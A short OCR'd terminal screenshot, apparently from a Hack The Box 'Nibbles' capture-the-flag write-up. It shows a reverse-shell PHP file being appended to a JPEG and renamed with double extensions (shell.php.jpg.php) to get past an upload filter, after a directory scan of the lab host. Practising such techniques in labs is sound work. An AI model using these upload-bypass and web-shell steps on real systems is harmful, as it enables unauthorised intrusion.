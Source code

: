 ![](Maszyny/Linux/Nibbles/Pasted%20image%2020210818191239.png)

-(kali kali)-[/htb/nibbles]
cat testowe.jpeg reverse-shell-win.php > shell.php
-(kali kali)-[~/htb/nibbles]
ls
ferox-http_10_10_10_75-1629289371.state ferox-http_10_
-(kali kali)-[-/htb/nibbles]
mv shell.php shell.php.jpg
(kali kali)-[~/htb/nibbles]
mv shell.php.jpg shell.php.jpg.php
-(kali kali)-[~/htb/nibbles]
